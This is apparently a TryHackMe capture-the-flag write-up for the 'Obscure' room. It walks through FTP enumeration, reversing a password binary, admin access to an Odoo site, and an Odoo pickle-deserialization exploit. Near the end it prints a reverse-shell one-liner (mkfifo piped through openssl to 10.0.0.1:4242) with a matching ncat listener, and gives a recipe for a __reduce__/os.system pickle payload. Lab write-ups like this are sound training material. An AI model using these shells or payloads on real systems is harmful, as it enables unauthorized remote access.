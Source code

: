 # Obscure

[Obscure](https://tryhackme.com/room/obscured)

## Solution

- nmap scan: 21, 22, 80

### Part 1

We see from the nmap scan that we can connect using anonymous session with ftp.
In the fpt session we find a `notice.txt` file and an ELF executable called
`password`. From the notice `password` is an application that stores passwords?

Intresting `strings`:

```
SecurePaH
ssword12H
```

We can `chmox +x password` and try to run it. We get the following message:

```
Password Recovery
Please enter your employee id that is in your email
```

If we try to break  the app with a very long string we get `*** stack smashing
detected ***: terminated` so we might not be able to redirect code execution.
We can try to gdb into the executable and try to see if we can somehow exploit
the tool.

Using gdb we can see that the input is compared using strcmp with `971234596`,
which is one of the strings of the executable, and it seems that it is the user
id. We can try to run the executable with that value.

After runnin the `password` tool with the input `971234596` we get
`SecurePassword123!`. This might be useful later. Maybe there is something else
in the code that we can do.

We can access the website on port 80. After playing around a bit, I tried to go
to `Manage Databases`. There I tried to run backup and provided the password
that we got from the executable. And it downloaded a zip archive.

Scanning trought the `dump.sql` file I found something interesting `1	t
admin@antisoft.thm		1	3	\N	f	1	\N	\N	2022-07-23 10:52:10.087949
<span data-o-mail-quote="1">-- <br data-o-mail-quote="1">\nAdministrator</span>
$pbkdf2-sha512$12000$lBJiDGHMOcc4Zwwh5Dzn/A$x.EZ/PrEodzEJ5r4JfQo2KsMZLkLT97xWZ3LsMdgwMuK1Ue.YCzfElODfWEGUOc7yYBB4fMt87ph8Sy5tN4nag`

Funny enough, the login `admin@antisoft.thm` and password `SecurePassword123!`
works on the website. (We can try and see if hashcat finds the same password,
but it's not necessary).

I was randomly clicking on the sidebar (Apps, Updates) and got an error
`Uncaught TypeError: Cannot read properties of null (reading '0')`. Not sure if
it is relevant or not. There is also a `Settings` tab. Maybe that is more
interesting.

I searched for odoo on exploitdb and found something that looks promising. This
seems to match with the version that we have and is an actual thing. I spent so
much time on that. But it didn't work first try. I am too deep to not continue
on this rabbit hole. https://www.exploit-db.com/exploits/44064 There is another
button `Activate developer mode`... smh. Idk if that does something. Still no
idea what to do from here.

Well, the database anonymous exploit was actually the way to go. I just needed
to try a different connection method. You need to use pickle and pyhton2.7 for
this to work. Basically do the reverse of what happens on the server. After
many experiments, they do pickle.load (no base64, just raw).

```
user@attack$ ncat --ssl -vv -l -p 4242

user@victim$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s
```

So we need to put the victim command as the payload for a pickled file. Create
a class that extends object and in the `__reduce__` method return a tuple
`(os.system, (payload,))`. This will execute the payload on pickle.load.
Full script `./expickle/exploit.py`.

Next go to the home directory and cat the flag file.
